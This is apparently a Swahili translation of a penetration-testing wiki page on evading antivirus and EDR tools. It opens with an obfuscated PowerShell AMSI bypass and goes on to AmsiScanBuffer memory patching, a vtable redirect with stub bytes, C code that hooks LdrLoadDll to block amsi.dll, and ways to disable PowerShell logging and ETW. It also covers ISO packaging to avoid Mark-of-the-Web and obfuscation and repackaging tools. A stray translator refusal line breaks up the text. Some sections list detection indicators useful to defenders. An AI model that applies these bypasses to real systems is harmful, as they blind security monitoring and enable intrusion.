      $ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
      $DiskMgr = 'Syst+@.M£n£g' + 'e@+nt.Auto@' + '£tion.A' -join ''
      $fdx = '@ms' + '£In£' + 'tF@£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
      $CleanUp = $DiskMgr.Replace('@','m').Replace('£','a').Replace('+','e')
      $Rawdata = $fdx.Replace('@','a').Replace('£','i').Replace('+','e')
      $SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
      $Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
      $Spotfix.SetValue($null,$true)
   }Catch{Throw $_}
```

Kumbuka, huenda hii ikaflagiwa mara tu chapisho hili litakapotoka, kwa hivyo hupaswi kuchapisha code ikiwa mpango wako ni kubaki bila kugunduliwa.

**Memory Patching**

Mbinu hii iligunduliwa awali na [@RastaMouse](https://twitter.com/_RastaMouse/) na inahusisha kutafuta address ya function ya "AmsiScanBuffer" katika amsi.dll (inayohusika na kuchanganua ingizo lililotolewa na mtumiaji) na kuiandikia upya kwa instructions za kurudisha code ya E_INVALIDARG. Kwa njia hii, matokeo ya scan halisi yatarudisha 0, ambayo hutafsiriwa kama matokeo safi.

> [!TIP]
> Tafadhali soma [https://rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/) kwa maelezo zaidi.

Pia kuna mbinu nyingine nyingi zinazotumika kubypass AMSI kwa powershell; angalia [**ukurasa huu**](basic-powershell-for-pentesters/index.html#amsi-bypass) na [**repo hii**](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell) ili kujifunza zaidi kuzihusu.

### Uelekezaji upya wa AMSI COM scan-pointer badala ya kupatch `AmsiScanBuffer`

Bypass nyingine ya ndani ya process huiacha entry point ya `AmsiScanBuffer` bila kuigusa. Katika .NET loader ya 64-bit iliyoripotiwa, AMSI COM object huundwa kutoka CLSID `fdb00e52-a214-4aa1-8fba-4357bb0072ec`; `Marshal.GetIUnknownForObject()` hutoa interface pointer, na vtable slot yake katika offset `0x18` hutumika kama target ya scan-call. Loader hupatch native pointer ya `Console.Clear()` kwa x64 stub ndogo, hubadilisha ingizo hilo la vtable kuwa stub chini ya `VirtualProtect()`, kisha hurejesha page protection ya awali. Upana wa pointer wa 64-bit na mpangilio wa COM unaotarajiwa ni masharti ya lazima; hii si offset ya jumla inayotumika kwa interface au build yoyote ya AMSI. Hatua za awali zilizozingatiwa ni [upakiaji wa signed AppDomainManager sidecar](windows-local-privilege-escalation/dll-hijacking/#signed-appdomainmanager-type-as-a-configuration-file-gadget) na [RESX deserialization](../pentesting-web/deserialization/basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net.md#resx-resource-parsing-to-binaryformatter-and-xaml).<sup>[[51]](#references)</sup>

Byte za stub zilizoonekana ni `41 C7 00 01 00 00 00 33 C0 C3`: zinaandika **1** kwenye result pointer katika `r8` na kurudisha **0** katika `eax`. Kwa hivyo, dai lililoripotiwa kwamba matokeo ya scan ni `AMSI_RESULT_CLEAN` (0) linachanganya thamani ya return ya `S_OK` na output enum. Katika mpangilio wa `AMSI_RESULT` uliorekodiwa, matokeo **1** ni `AMSI_RESULT_NOT_DETECTED`; bado yako chini ya kizingiti cha ugunduzi.<sup>[[51]](#references)[[52]](#references)[[53]](#references)</sup>

### Kublock AMSI kwa kuzuia amsi.dll kupakiwa (LdrLoadDll hook)

AMSI huanzishwa tu baada ya amsi.dll kupakiwa kwenye process ya sasa. Bypass thabiti isiyotegemea lugha ni kuweka user-mode hook kwenye `ntdll!LdrLoadDll` inayorudisha hitilafu wakati module inayoombwa ni `amsi.dll`. Matokeo yake, AMSI haipakii kamwe na hakuna scans zinazofanyika kwa process hiyo.<sup>[[23]](#references)</sup>

Muhtasari wa utekelezaji (x64 C/C++ pseudocode):
```c
#include <windows.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI *pLdrLoadDll)(PWSTR, ULONG, PUNICODE_STRING, PHANDLE);
static pLdrLoadDll realLdrLoadDll;

NTSTATUS NTAPI Hook_LdrLoadDll(PWSTR path, ULONG flags, PUNICODE_STRING module, PHANDLE handle){
    if (module && module->Buffer){
        UNICODE_STRING amsi; RtlInitUnicodeString(&amsi, L"amsi.dll");
        if (RtlEqualUnicodeString(module, &amsi, TRUE)){
            // Pretend the DLL cannot be found → AMSI never initialises in this process
            return STATUS_DLL_NOT_FOUND; // 0xC0000135
        }
    }
    return realLdrLoadDll(path, flags, module, handle);
}

void InstallHook(){
    HMODULE ntdll = GetModuleHandleW(L"ntdll.dll");
    realLdrLoadDll = (pLdrLoadDll)GetProcAddress(ntdll, "LdrLoadDll");
    // Apply inline trampoline or IAT patching to redirect to Hook_LdrLoadDll
    // e.g., Microsoft Detours / MinHook / custom 14‑byte jmp thunk
}
```
Siwezi kutafsiri maelekezo yanayosaidia kukwepa AMSI au kuondoa saini za AV/EDR. Naweza kusaidia kutafsiri toleo linalolenga ugunduzi na ulinzi dhidi ya mbinu hizi.

```bash
powershell.exe -version 2
```

## Uwekaji wa Kumbukumbu wa PS

Uwekaji wa kumbukumbu wa PowerShell ni kipengele kinachokuwezesha kurekodi amri zote za PowerShell zinazotekelezwa kwenye mfumo. Hii inaweza kusaidia kwa madhumuni ya ukaguzi na utatuzi wa matatizo, lakini pia inaweza kuwa **tatizo kwa washambuliaji wanaotaka kukwepa kugunduliwa**.

Ili kukwepa uwekaji wa kumbukumbu wa PowerShell, unaweza kutumia mbinu zifuatazo:

- **Zima PowerShell Transcription na Module Logging**: Unaweza kutumia zana kama [https://github.com/leechristensen/Random/blob/master/CSharp/DisablePSLogging.cs](https://github.com/leechristensen/Random/blob/master/CSharp/DisablePSLogging.cs) kwa madhumuni haya.
- **Tumia toleo la 2 la PowerShell**: Ukitumia toleo la 2 la PowerShell, AMSI haitapakiwa, kwa hivyo unaweza kuendesha scripts zako bila kuchanganuliwa na AMSI. Unaweza kufanya hivi: `powershell.exe -version 2`
- **Tumia session ya PowerShell isiyodhibitiwa**: Tumia [UnmanagedPowerShell](https://github.com/leechristensen/UnmanagedPowerShell) kupangisha PowerShell bila kuanzisha `powershell.exe` (mbinu inayotumiwa na `powerpick` ya Cobalt Strike). Hii hukwepa vidhibiti vinavyohusishwa mahususi na mchakato wa `powershell.exe`, lakini haizimi yenyewe AMSI, Script Block Logging, au kila ulinzi mwingine wa PowerShell; kiwango cha ulinzi hutegemea runtime na utekelezaji wa host.


## Obfuscation

> [!TIP]
> Mbinu kadhaa za obfuscation hutegemea kusimba data kwa njia fiche, jambo linaloongeza entropy ya binary na kurahisisha AV na EDR kugundua. Kuwa mwangalifu na hili, na pengine tumia usimbaji fiche kwenye sehemu mahususi tu za code yako ambazo ni nyeti au zinahitaji kufichwa.

### Kuondoa Obfuscation kwenye .NET Binaries Zilizolindwa na ConfuserEx

Unapochanganua malware inayotumia ConfuserEx 2 (au forks za kibiashara), ni kawaida kukumbana na tabaka kadhaa za ulinzi zinazozuia decompilers na sandboxes. Mchakato ulio hapa chini hurejesha kwa uhakika **IL inayokaribia kuwa ya awali**, ambayo baadaye inaweza kugeuzwa kuwa C# kwa kutumia zana kama dnSpy au ILSpy.<sup>[[10]](#references)</sup>

1.  Kuondoa kinga dhidi ya mabadiliko – ConfuserEx husimba kwa njia fiche kila *method body* na kuifungua ndani ya static constructor ya *module* (`<Module>.cctor`). Pia hubadilisha PE checksum ili mabadiliko yoyote yasababishe binary ku-crash. Tumia **AntiTamperKiller** kupata metadata tables zilizosimbwa kwa njia fiche, kurejesha funguo za XOR na kuandika upya assembly safi:
   ```bash
   # https://github.com/wwh1004/AntiTamperKiller
   python AntiTamperKiller.py Confused.exe Confused.clean.exe
   ```
   Output ina vigezo 6 vya anti-tamper (`key0-key3`, `nameHash`, `internKey`) vinavyoweza kusaidia unapounda unpacker yako mwenyewe.

2.  Urejeshaji wa alama / mtiririko wa udhibiti – peana faili *safi* kwa **de4dot-cex** (fork ya de4dot inayotambua ConfuserEx).
   ```bash
   de4dot-cex -p crx Confused.clean.exe -o Confused.de4dot.exe
   ```
   Bendera:
     • `-p crx` – chagua profile ya ConfuserEx 2
     • de4dot itaondoa control-flow flattening, kurejesha namespaces, classes na variable names za awali, na kusimbua constant strings.

3.  Kuondoa proxy calls – ConfuserEx hubadilisha method calls za moja kwa moja na wrappers nyepesi (zinazojulikana pia kama *proxy calls*) ili kufanya decompilation iwe ngumu zaidi. Ziondoe kwa kutumia **ProxyCall-Remover**:
   ```bash
   ProxyCall-Remover.exe Confused.de4dot.exe Confused.fixed.exe
   ```
   Baada ya hatua hii unapaswa kuona API za kawaida za .NET kama `Convert.FromBase64String` au `AES.Create()` badala ya wrapper functions zisizoeleweka (`Class8.smethod_10`, …).

4.  Usafishaji wa mikono – endesha binary inayotokana nayo chini ya dnSpy, tafuta blob kubwa za Base64 au matumizi ya `RijndaelManaged`/`TripleDESCryptoServiceProvider` ili kupata payload *halisi*. Mara nyingi malware huihifadhi kama byte array iliyosimbwa kwa TLV na kuanzishwa ndani ya `<Module>.byte_0`.

Msururu huu hurejesha mtiririko wa utekelezaji **bila** kuhitaji kuendesha sample hasidi – ni muhimu unapofanya kazi kwenye workstation isiyo na muunganisho wa mtandao.

> 🛈  ConfuserEx huzalisha custom attribute inayoitwa `ConfusedByAttribute` ambayo inaweza kutumiwa kama IOC kupanga sampuli kiotomatiki.

#### One-liner
```bash
autotok.sh Confused.exe  # wrapper that performs the 3 steps above sequentially
```

---

- [**InvisibilityCloak**](https://github.com/h4wkst3r/InvisibilityCloak)**: C# obfuscator**
- [**Obfuscator-LLVM**](https://github.com/obfuscator-llvm/obfuscator): Lengo la mradi huu ni kutoa fork ya open-source ya compilation suite ya [LLVM](http://www.llvm.org/) yenye uwezo wa kuongeza usalama wa software kupitia [code obfuscation](<http://en.wikipedia.org/wiki/Obfuscation_(software)>) na kuzuia uchezewaji.
- [**ADVobfuscator**](https://github.com/andrivet/ADVobfuscator): ADVobfuscator inaonyesha jinsi ya kutumia lugha ya `C++11/14` kuzalisha code iliyofichwa wakati wa compilation, bila kutumia tool yoyote ya nje na bila kurekebisha compiler.
- [**obfy**](https://github.com/fritzone/obfy): Huongeza safu ya operations zilizofichwa zinazozalishwa na C++ template metaprogramming framework, hivyo kufanya maisha ya mtu anayetaka kuvunja application kuwa magumu kidogo.
- [**Alcatraz**](https://github.com/weak1337/Alcatraz)**:** Alcatraz ni x64 binary obfuscator inayoweza kuficha aina mbalimbali za pe files, zikiwemo: .exe, .dll, .sys
- [**metame**](https://github.com/a0rtega/metame): Metame ni engine rahisi ya metamorphic code kwa executables za aina yoyote.
- [**ropfuscator**](https://github.com/ropfuscator/ropfuscator): ROPfuscator ni framework ya code obfuscation ya kiwango cha juu cha undani kwa lugha zinazoungwa mkono na LLVM, inayotumia ROP (return-oriented programming). ROPfuscator huficha program katika kiwango cha assembly code kwa kubadilisha instructions za kawaida kuwa ROP chains, na hivyo kuzuia dhana yetu ya kawaida kuhusu control flow.
- [**Nimcrypt**](https://github.com/icyguider/nimcrypt): Nimcrypt ni .NET PE Crypter iliyoandikwa kwa Nim
- [**inceptor**](https://github.com/klezVirus/inceptor)**:** Inceptor inaweza kubadilisha EXE/DLL zilizopo kuwa shellcode na kisha kuzipakia

### Kujificha kwa kila function kwa msaada wa LLVM compiler

Badala ya kuficha implant nzima inapokuwa imelala tu, LLVM X86 backend iliyorekebishwa inaweza kuweka functions zilizochaguliwa katika hali ya XOR-mask kila zinapokuwa hazitumiki. PoC ya Function Peekaboo huchagua majina yaliyofichuliwa (demangled) yenye `REG_`, huingiza entry/exit stubs zisizotegemea nafasi kuzunguka machine code ya mwisho, na kutoa masking handler moja ya pamoja ndani ya `.text`; signatures za kiwango cha source na Windows x64 calling convention hubaki vilevile.<sup>[[38]](#references)[[39]](#references)</sup>

#### Mabadiliko ya control flow ya backend

Hili linapaswa kufanyika baada ya instruction selection na optimization kwa sababu mabadiliko haya lazima yajumuishe **kila return inayotolewa** na yajue mpangilio halisi wa x86. `MachineFunctionPass` inayotangulia utoaji wa code hupata `MachineInstr::isReturn()` ya mwisho na kuifuta ili njia ya mwisho iendelee moja kwa moja hadi epilogue iliyoongezwa. Kisha hubadilisha returns za awali kuwa `JMP_1 handler`. Acha teardown ya stack/frame yoyote iliyozalishwa na compiler kabla ya kila return; elekeza upya instruction ya return pekee.<sup>[[38]](#references)[[39]](#references)</sup>

`X86AsmPrinter::emitFunctionBodyStart()` na `X86AsmPrinter::emitFunctionBodyEnd()` hutoa stubs za kila function, huku `emitEndOfAsmFile()` ikitoa handler. Symbols zinazoshirikiwa kati ya hatua za utoaji huruhusu prologue branch kulenga epilogue yake itakayotolewa baadaye; kwa `je` ya karibu inayotolewa kwa mkono, andika `0F 84` ikifuatiwa na MC expression ya byte nne `target - address_after_je`. Badala yake, calls na jumps kwenda kwa handler zinaweza kutolewa kama `MCInst` objects (`CALL64pcrel32` na `JMP_1`). Pass inapaswa kurudisha `false` kwa function ambayo haikuchaguliwa ikiwa haikubadilisha chochote; PoC hurudisha `true` kimakosa katika hali hiyo.<sup>[[38]](#references)[[39]](#references)</sup>

#### Metadata na uanzishaji wa kabla ya CRT

PoC huweka XOR key na records za byte 16 zenye function pointer iliyorekebishwa na loader pamoja na urefu wa wakati wa runtime ndani ya `.funcmeta`. Ingawa field ya C ni `uint32_t`, handler husoma QWORD kwenye offset `+8` ya record, hivyo hutumia urefu na padding yake, na husogeza records kwa `0x10`. Majina ya PE section yana nafasi ya byte nane pekee, kwa hiyo utafutaji wa runtime huona `.funcmet`. External patcher huongeza `.stub` inayoweza kutekelezwa, huhifadhi RVA ya entry point ya awali ndani ya stub, na kuelekeza `AddressOfEntryPoint` upya; PIC stub hupata image base kutoka `gs:[0x60]` → `[PEB+0x10]`, hupitia imports za PE32+ ili kupata `VirtualProtect` ambayo tayari imeingizwa, na huendeshwa kabla ya CRT.<sup>[[38]](#references)[[39]](#references)</sup>

Initialization huweka sentinel katika `gs:[0xE8]` na kuita kila function ya metadata. Prologue yake inayosomeka daima huhifadhi mwanzo wa function katika `gs:[0xF0]`, hutambua sentinel, na kuruka body ambayo bado haijafichwa. Kisha epilogue hutumia `call handler`; baada ya handler kuhifadhi registers 13 (`0x68` bytes), return address kwenye `[rsp+0x68]` huwa mwisho wa function iliyobadilishwa, hivyo `end - start` inaweza kuandikwa kwenye metadata record yake. Baada ya bodies zote kufichwa, stub huondoa sentinel na kuruka hadi `ImageBase + original_entry_point_RVA`.<sup>[[38]](#references)[[39]](#references)</sup>

Wakati wa call ya kawaida, prologue huita handler ileile ya pande mbili ili kufungua body. Njia ya mwisho huingia moja kwa moja kwenye epilogue iliyoongezwa, huku kila return ya awali ikiruka moja kwa moja hadi kwa handler ya pamoja. Epilogue ya kawaida pia hutumia `jmp handler` badala ya `call`, ili baada ya kuficha tena, `ret` ya handler itumie return address ya awali ya caller na kuhifadhi matokeo ya function katika `RAX`.<sup>[[38]](#references)[[39]](#references)</sup>

#### Utaratibu wa kuficha na viashiria vya uchanganuzi

Handler hupata record ya sasa, huruka prologue isiyofichwa yenye urefu usiobadilika (`0x46` bytes katika build hii), hubadilisha sehemu iliyobaki kuwa `PAGE_EXECUTE_READWRITE`, hufanya XOR byte kwa byte kwa kutumia byte ya chini ya key, kisha huiweka kuwa `PAGE_EXECUTE_READ`. Kwa hiyo loop ileile hufungua code inapoanza na kuificha tena kila inapotoka kwa kawaida.<sup>[[38]](#references)[[39]](#references)</sup>

Viashiria muhimu vya muundo huu ni pamoja na:<sup>[[38]](#references)[[39]](#references)</sup>

- entry point iliyo ndani ya `.stub` inayoweza kutekelezwa na section ya `.funcmet` yenye key pamoja na pointers za `.text` zilizorekebishwa;
- uchanganuzi wa PEB, import table na section table kabla ya CRT, ukifuatiwa na calls kupitia kila metadata pointer;
- PIC prologues zinazofanana za `call`/`pop` na return sites nyingi zinazoelekezwa kwa handler mmoja;
- writes kwenda `gs:[0xE8]`, `gs:[0xF0]`, na `gs:[0xF8]`, zikifuatiwa na mabadiliko ya mara kwa mara ya `VirtualProtect` na writes za XOR byte kwa byte ndani ya executable pages zinazoungwa mkono na image.

Huu ni ukwepaji wa memory scanner, si ulinzi wa cryptographic: file iliyopachikwa bado ina body ya awali iliyo wazi, na debugger inaweza kusimamishwa kwenye `VirtualProtect` au XOR loop ili kutoa dump ya function inayotumika. XOR ya byte moja, metadata inayosomeka na mpaka usiobadilika wa `0x46` pia hufanya urejeshaji wa offline kuwa rahisi.<sup>[[38]](#references)[[39]](#references)</sup>

> [!WARNING]
> TEB slots za PoC ni za kila thread, lakini code pages zilizobadilishwa ni za process nzima. Kwa hiyo, kuingia kwa wakati mmoja au kujirudia kunaweza kubadilisha tena instructions wakati invocation nyingine inatekelezwa; exceptions na njia za kutoka zisizo za kawaida pia zinaweza kuruka hatua ya kuficha tena. Utekelezaji thabiti lazima ulandanishe mabadiliko, urejeshe protection halisi iliyorejeshwa kupitia `lpflOldProtect`, uepuke urefu wa stub uliowekwa kwa namba maalum, ukague njia zote za `call` na `jmp` ili kuhakikisha stack alignment ya x64, na uite `FlushInstructionCache` baada ya kuandika upya executable bytes. Microsoft inaeleza wazi kwamba caller ana jukumu la kuhakikisha instruction-cache coherency code inayoweza kutekelezwa inapobadilishwa.<sup>[[38]](#references)[[39]](#references)[[40]](#references)</sup>

## SmartScreen & MoTW

Huenda umewahi kuona skrini hii unapopakua baadhi ya executables kutoka kwenye intaneti na kuzitekeleza.

Microsoft Defender SmartScreen ni utaratibu wa usalama unaolenga kumlinda mtumiaji wa mwisho dhidi ya kuendesha applications zinazoweza kuwa hasidi.

<figure><figcaption></figcaption></figure>

SmartScreen hutumia zaidi mbinu inayotegemea reputation, maana yake ni kwamba applications ambazo hazipakuliwi mara nyingi zitasababisha SmartScreen kuonyesha tahadhari na kumzuia mtumiaji wa mwisho kutekeleza file (ingawa file bado linaweza kutekelezwa kwa kubofya More Info -> Run anyway).

**MoTW** (Mark of The Web) ni [NTFS Alternate Data Stream](<https://en.wikipedia.org/wiki/NTFS#Alternate_data_stream_(ADS)>) yenye jina la Zone.Identifier, ambayo huundwa kiotomatiki files zinapopakuliwa kutoka kwenye intaneti, pamoja na URL ilikotoka.

<figure><figcaption><p>Kuangalia Zone.Identifier ADS ya file lililopakuliwa kutoka kwenye intaneti.</p></figcaption></figure>

> [!TIP]
> Ni muhimu kukumbuka kwamba executables zilizosainiwa kwa signing certificate **inayoaminika** **hazitasababisha SmartScreen kuonekana**.

Njia yenye ufanisi mkubwa ya kuzuia payloads zako zisipate Mark of The Web ni kuzipakia ndani ya aina fulani ya container kama ISO. Hii hutokea kwa sababu Mark-of-the-Web (MOTW) **haiwezi** kutumika kwenye volumes **zisizo za NTFS**.

<figure><figcaption></figcaption></figure>

[**PackMyPayload**](https://github.com/mgeeky/PackMyPayload/) ni tool inayopakia payloads ndani ya output containers ili kukwepa Mark-of-the-Web.

Mfano wa matumizi:

```bash
PS C:\Tools\PackMyPayload> python .\PackMyPayload.py .\TotallyLegitApp.exe container.iso

+      o     +              o   +      o     +              o
    +             o     +           +             o     +         +
    o  +           +        +           o  +           +          o
-_-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-_-_-_-_-_-_-_,------,      o
   :: PACK MY PAYLOAD (1.1.0)       -_-_-_-_-_-_-|   /\_/\
   for all your container cravings   -_-_-_-_-_-~|__( ^ .^)  +    +
-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-__-_-_-_-_-_-_-''  ''
+      o         o   +       o       +      o         o   +       o
+      o            +      o    ~   Mariusz Banach / mgeeky    o
o      ~     +           ~          <mb [at] binary-offensive.com>
    o           +                         o           +           +

[.] Packaging input file to output .iso (iso)...
Burning file onto ISO:
    Adding file: /TotallyLegitApp.exe

[+] Generated file written to (size: 3420160): container.iso
```

Hii hapa demo ya kukwepa SmartScreen kwa kufungasha payloads ndani ya faili za ISO kwa kutumia [PackMyPayload](https://github.com/mgeeky/PackMyPayload/)

<figure><figcaption></figcaption></figure>

## ETW

Event Tracing for Windows (ETW) ni utaratibu wenye nguvu wa kurekodi kumbukumbu katika Windows unaoruhusu programu na vipengele vya mfumo **kurekodi matukio**. Hata hivyo, bidhaa za usalama pia zinaweza kuutumia kufuatilia na kugundua shughuli hasidi.

Kama ilivyo kwa kuzima (kukwepa) AMSI, inawezekana pia kufanya kazi ya **`EtwEventWrite`** ya mchakato wa user space irudi mara moja bila kurekodi matukio yoyote. Hili hufanywa kwa kubandika kazi hiyo kwenye kumbukumbu ili irudi mara moja, na hivyo kuzima rekodi za ETW kwa mchakato huo.

Unaweza kupata maelezo zaidi kwenye **[https://blog.xpnsec.com/hiding-your-dotnet-etw/](https://blog.xpnsec.com/hiding-your-dotnet-etw/) na [https://github.com/repnz/etw-providers-docs/](https://github.com/repnz/etw-providers-docs/)**.<sup>[[33]](#references)[[34]](#references)</sup>


## Uakisi wa C# Assembly

Kupakia binaries za C# kwenye kumbukumbu kumejulikana kwa muda mrefu, na bado ni njia nzuri sana ya kuendesha zana zako za post-exploitation bila kugunduliwa na AV.

Kwa kuwa payload itapakiwa moja kwa moja kwenye kumbukumbu bila kugusa diski, tutahitaji tu kuwa na wasiwasi kuhusu kubandika AMSI kwa mchakato mzima.

Frameworks nyingi za C2 (sliver, Covenant, metasploit, CobaltStrike, Havoc, n.k.) tayari zina uwezo wa kutekeleza C# assemblies moja kwa moja kwenye kumbukumbu, lakini kuna njia tofauti za kufanya hivyo:

- **Fork\&Run**

Hii inahusisha **kuanzisha mchakato mpya wa muda (sacrificial process)**, kuingiza msimbo hasidi wa post-exploitation kwenye mchakato huo mpya, kuutekeleza, kisha kuua mchakato huo mpya ukimaliza. Njia hii ina faida na hasara zake. Faida ya njia ya fork and run ni kwamba utekelezaji hufanyika **nje ya** mchakato wa implant yetu ya Beacon. Hii inamaanisha kuwa ikiwa jambo fulani katika shughuli yetu ya post-exploitation litaharibika au kugunduliwa, kuna **uwezekano mkubwa zaidi** kwamba **implant yetu itaendelea kufanya kazi.** Hasara yake ni kwamba kuna **uwezekano mkubwa zaidi** wa kugunduliwa na **Ugunduzi wa Kitabia**.

<figure><figcaption></figcaption></figure>

- **Inline**

Hii inahusu kuingiza msimbo hasidi wa post-exploitation **kwenye mchakato wake yenyewe**. Kwa njia hii, unaweza kuepuka kuunda mchakato mpya na kuchunguzwa na AV, lakini hasara yake ni kwamba jambo fulani likiharibika wakati wa kutekeleza payload yako, kuna **uwezekano mkubwa zaidi** wa **kupoteza beacon yako** kwa sababu mchakato unaweza kuharibika.

<figure><figcaption></figcaption></figure>

> [!TIP]
> Ikiwa ungependa kusoma zaidi kuhusu kupakia C# Assembly, angalia makala hii [https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/](https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/) na BOF yao ya InlineExecute-Assembly ([https://github.com/xforcered/InlineExecute-Assembly](https://github.com/xforcered/InlineExecute-Assembly))

Unaweza pia kupakia C# Assemblies **kutoka PowerShell**; angalia [Invoke-SharpLoader](https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader) na [video ya S3cur3th1sSh1t](https://www.youtube.com/watch?v=oe11Q-3Akuk).

## Kufungasha upya zana za .NET kuwa NativeAOT WebAssembly (WasmForge)

Mbinu za kawaida za `execute-assembly` huhifadhi MSIL inayotambulika na hatimaye kuanzisha CLR. **WasmForge** hubadilisha badala yake msingi wa utekelezaji: huhamisha mradi wa C# kwenda kwenye lengo la majaribio la NativeAOT-LLVM WASI, huukompaili mapema kuwa WebAssembly, kisha huweka moduli hiyo ndani ya host ya Windows PE inayotumia Wazero. Mchakato unaotokana hauhitaji CLR, JIT, wala host ya `dotnet` ya mfumo lengwa, kwa hiyo kanuni zinazotegemea tu majina ya managed assembly, upakiaji wa CLR, AMSI, au .NET ETW hupoteza mwonekano wa moja kwa moja. Hii ni mbinu ya kukwepa ugunduzi/kufungasha, si kukwepa mipaka ya ruhusa—guest huhifadhi ruhusa za zana ya awali na tabia yake ya OS inayoonekana.<sup>[[44]](#references)[[45]](#references)</sup>

### Kujenga mradi wa C#

Njia inayopendekezwa ya build ni kutumia mazingira ya Docker ya mradi, kwa kuwa linajumuisha .NET 10 SDK, NativeAOT-LLVM workload, WASI SDK 24.0, linker, na vitegemezi vya kusaini. Faili ya `.csproj` hutambuliwa kiotomatiki; build ya hatua moja hufanya uhamishaji, marekebisho ya uoanifu, ukompaili wa WASM, uundaji wa PE, na usainishaji.<sup>[[45]](#references)</sup>

```bash
# From the WasmForge repository
make docker-build
make docker-run DOCKER_SRC=/path/to/Seatbelt DOCKER_PROJECT=seatbelt

# Equivalent direct build when all prerequisites are installed
GOOS=windows GOARCH=amd64 ./wasmforge build --win32-apis \
  -o seatbelt.exe /path/to/Seatbelt/Seatbelt/
```

Kwa utatuzi wa matatizo au ukaguzi wa code iliyozalishwa, gawanya mchakato katika `wasmforge dotnet-migrate <dir>`, `wasmforge dotnet-patch <dir>`, `dotnet publish -c Release -r wasi-wasm`, na mwishowe `wasmforge build --wasm <module> --nativeaot --win32-apis -o <output.exe>`. Picha ya build pia hutumia wrapper ya `wasm-component-ld` ili kuepuka usimbaji wa component wa WASI Preview 2 na kutoa module ya kawaida inayotarajiwa na runtime iliyopachikwa.<sup>[[44]](#references)[[45]](#references)</sup>

### Kuunganisha wasm32 C# na x64 Win32

Huu si ucompile upya unaofanyika bila mabadiliko. NativeAOT-WASI haina au hubadilisha vipengele vya BCL vinavyolenga Windows, na guest ya wasm32 kwa kawaida hutenga nafasi za pointer za baiti nne, ilhali API za x64 zinaweza kurejesha pointer za baiti nane. WasmForge hushughulikia matatizo haya yote mawili kwa kutumia tabaka zifuatazo zinazozalishwa:<sup>[[44]](#references)</sup>

1. Kirekebishaji cha source hurekebisha tofauti za kisemantiki mahususi za AOT na kuelekeza upya miito isiyotumika ya registry, pipes, WMI, identity, directory-service, file-version, LSA na mingine kama hiyo kwa wasaidizi wa `Wf*`.
2. Kichanganuzi cha P/Invoke hutoa ramani za NativeAOT `DirectPInvoke` ili miito ya `[DllImport]` iunganishwe na alama za C bridge zilizounganishwa badala ya kupakia DLL iliyotajwa kwa nguvu ndani ya guest.
3. Pointer zinazofungwa na host hutumia `ulong` katika C# na `uint64_t` katika C. Dispatcher ya jumla hupeleka mwito kwa handler ya Win32 ya host; `out8_mask` huashiria nafasi halisi za matokeo za baiti nane ambazo sehemu zake za juu lazima zihifadhiwe. Matokeo yenye umbo la wasm32 ambayo hayajawekewa alama hutumia ulinzi wa snapshot/restore ili uandishi wa x64 usiharibu baiti nne zilizo jirani.
4. Host bridges mahususi hushughulikia operesheni zisizolingana na uelekezaji wa jumla wa syscall, kama vile ufikiaji wa akiba ya tiketi za LSA, operesheni za Kerberos/BCrypt zenye matokeo yaliyopangwa, trafiki ya TCP KDC, na hoja za LDAP.

Kwa mfano, wrapper ya `version.dll!VerQueryValueW` hupitisha anwani nne za host na kuweka biti ya 2 na ya 3 (`0xC`) kwa sababu pointer ya value na urefu ni nafasi za matokeo za baiti nane. Wrapper yenyewe hubaki ya jumla na hukabidhi jina la DLL, jina la export, hoja na mask kwa `wf_call_v2`; host hutafsiri pointer na kuita API asilia.<sup>[[44]](#references)</sup>

```c
uint32_t version_VerQueryValueW_v2(uint64_t block, uint64_t subblock,
    uint64_t value_out, uint64_t length_out) {
    return (uint32_t)wf_call_v2("version.dll", "VerQueryValueW", 4,
        0xC, block, subblock, value_out, length_out);
}
```

### Vikwazo na njia za kuelekeza ugunduzi

Msimbo unaotumia sana reflection, upakiaji wa assembly unaobadilika, callbacks za native zisizo na kikomo, na miundo changamano ya x64 inayorejeshwa kwenye kumbukumbu ya WASM bado inaweza kuhitaji marekebisho mahususi kwa kila tool au kushindwa kabisa. Sockets za jumla za WASI Preview 2 pia zinaweza kufikia stubs zisizofanya chochote, kwa hivyo tools zinazoungwa mkono hutumia host shims mahususi kwa protocol. Thibitisha kila amri dhidi ya build ya native badala ya kudhani kuwa vipengele vyake vinafanana.<sup>[[44]](#references)[[45]](#references)</sup>

Mbinu hii huhamisha telemetry badala ya kufanya payload isionekane. Ugunduzi unaweza kuelekezwa kwenye PE iliyo na moduli ya WASM au inayoitengeneza, tabia ya runtime inayofanana na Wazero, ugawaji na unakili wa kumbukumbu usio wa kawaida kati ya host na guest, dispatch ya jumla ya Win32 ya moja kwa moja, hitilafu za signing na PE resources, pamoja na API calls na trafiki ya mtandao inayotokana na hayo. Kwa hiyo, kukosekana kwa matukio ya CLR-load, AMSI, au .NET ETW hakupaswi kuchukuliwa kuwa ushahidi kwamba mchakato ni salama.<sup>[[44]](#references)</sup>

## Kutumia Lugha Nyingine za Programu

Kama ilivyopendekezwa katika [**https://github.com/deeexcee-io/LOI-Bins**](https://github.com/deeexcee-io/LOI-Bins), inawezekana kutekeleza msimbo hasidi kwa kutumia lugha nyingine kwa kulipa mashine iliyoathiriwa ufikiaji **wa mazingira ya interpreter yaliyosakinishwa kwenye share ya SMB inayodhibitiwa na mshambulizi**.

Kwa kuruhusu ufikiaji wa Interpreter Binaries na mazingira kwenye share ya SMB, unaweza **kutekeleza msimbo wowote katika lugha hizi ndani ya kumbukumbu** ya mashine iliyoathiriwa.

Repo inaeleza: Defender bado huchanganua scripts, lakini kwa kutumia Go, Java, PHP n.k. tunapata **unafuu zaidi wa kukwepa static signatures**. Majaribio ya scripts za reverse shell zisizofichwa kwa obfuscation na zilizochaguliwa bila mpangilio katika lugha hizi yamefanikiwa.

## Uwekaji upya wa WebAssembly ili kukwepa uchanganuzi tuli

<a id="bridging-linear-memory-to-native-apis"></a>
